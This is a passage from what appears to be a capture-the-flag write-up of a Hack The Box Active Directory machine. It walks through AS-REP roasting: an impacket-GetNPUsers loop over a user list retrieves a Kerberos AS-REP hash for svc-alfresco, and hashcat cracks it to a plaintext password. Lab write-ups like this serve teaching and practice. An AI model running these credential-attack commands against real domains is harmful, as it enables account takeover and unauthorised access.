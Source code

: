 
Now I have the list of target users.

I'll try the Attack As-Rep Roasting using the users list.

```bash
cat users
```
    
```
sebastien
lucinda
svc-alfresco
andy
mark
santi
```
    
```bash
for user in $(cat users); do impacket-GetNPUsers -no-pass -dc-ip 10.10.10.161 htb/${user} | grep -v Impacket; done
```
    
```
[*] Getting TGT for sebastien
[-] User sebastien doesn't have UF_DONT_REQUIRE_PREAUTH set

[*] Getting TGT for lucinda
[-] User lucinda doesn't have UF_DONT_REQUIRE_PREAUTH set

[*] Getting TGT for svc-alfresco
$krb5asrep$23$svc-alfresco@HTB:754aaeb7cf647e5365424893ee7e7345$1f45e994ceeda5dba738917f2d1f1103eadc8aab035b7177f5ebcaa4ace7ab4311966d7a2bebe181f5dc0e51fd24286b24cb2493a1f02c6fc5cfbd050627089ea8517c1cd3256b7b94d42acc4e54a98b4e336dc175f356a34394b843e82701e822f748a8599fc6d641a5cfa3ebdaeb5f04ace7a97a31b2993c0628c766fe7f2e7358fbeeee130b7c55579f6bb9006949a9f4db273fd05f845ab359b7799624297b4be55b4eab01a5d350f012fc49829e01db5b64fad03409ab7f34cf8c19f538ea9868751d2dc3739fa0d4b2b0d991b0c145bde8f925bbdbec205fc7a626b0b8

[*] Getting TGT for andy
[-] User andy doesn't have UF_DONT_REQUIRE_PREAUTH set

[*] Getting TGT for mark
[-] User mark doesn't have UF_DONT_REQUIRE_PREAUTH set

[*] Getting TGT for santi
[-] User santi doesn't have UF_DONT_REQUIRE_PREAUTH set
```
    

### Cracking the Hash

```bash
hashcat -m 18200 hash.txt /usr/share/wordlists/rockyou.txt --force
```

| User         | Pass     |
|:-------------|---------:|
| svc-alfresco | s3rvice  | 
